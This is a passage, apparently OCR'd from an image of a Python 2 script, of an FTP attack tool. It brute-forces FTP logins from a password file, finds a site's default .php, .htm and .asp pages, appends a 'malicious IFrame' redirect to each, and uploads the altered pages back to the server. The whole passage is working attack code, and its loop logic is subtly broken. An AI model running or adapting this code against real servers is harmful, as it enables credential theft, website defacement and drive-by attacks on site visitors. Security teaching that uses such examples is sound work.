```py
        return True
    except Exception as e:
        print('\n[-] ' + str(hostname) + ' FTP Anonymous Logon Failed.')
        return False

def bruteLogin(hostname, passwdFile):
    pF = open(passwdFile, 'r')
    for line in pF.readlines():
        time.sleep(1)
        userName = line.split(':')[0]
        passWord = line.split(':')[1].strip('\r').strip('\n')
        print '[+] Trying: ' + userName + '/' + passWord
        try:
            ftp = ftplib.FTP(hostname)
            ftp.login(userName, passWord)
            print('\n[*] ' + str(hostname) + ' FTP Logon Succeeded: '+userName+'/'+passWord)
            ftp.quit()
            return (userName, passWord)
        except Exception, e:
            pass
        print('\n[-] Could not brute force FTP credentials.')
        return (None, None)

def returnDefault(ftp):
    try:
        dirList = ftp.nlst()
    except:
        dirList = []
        print('[-] Could not list directory contents.')
        print('[-] Skipping To Next Target.')
        return
    retList = []
    for fileName in dirList:
        fn = fileName.lower()
        if '.php' in fn or '.htm' in fn or '.asp' in fn:
            print('[+] Found default page: ' + fileName)
        retList.append(fileName)
    return retList

def injectPage(ftp, page, redirect):
    f = open(page + '.tmp', 'w')
    ftp.retrlines('RETR ' + page, f.write)
    print('[+] Downloaded Page: ' + page)
    f.write(redirect)
    f.close()
    print('[+] Injected Malicious IFrame on: ' + page)
    ftp.storlines('STOR ' + page, open(page + '.tmp'))
    print('[+] Uploaded Injected Page: ' + page)

def attack(username, password, tgtHost, redirect):
    ftp = ftplib.FTP(tgtHost)
    ftp.login(username, password)
    defPages = returnDefault(ftp)
    for defPage in defPages:
        injectPage(ftp, defPage, redirect)

def main():
    parser = optparse.OptionParser('usage%prog -H <target host[s]> -r <redirect page> [-f <userpass file>]')
    parser.add_option('-H', dest='tgtHosts', type='string', help='specify target host')
    parser.add_option('-f', dest='passwdFile', type='string', help='specify user/password file')
    parser.add_option('-r', dest='redirect', type='string', help='specify a redirection page')
    (options, args) = parser.parse_args()
```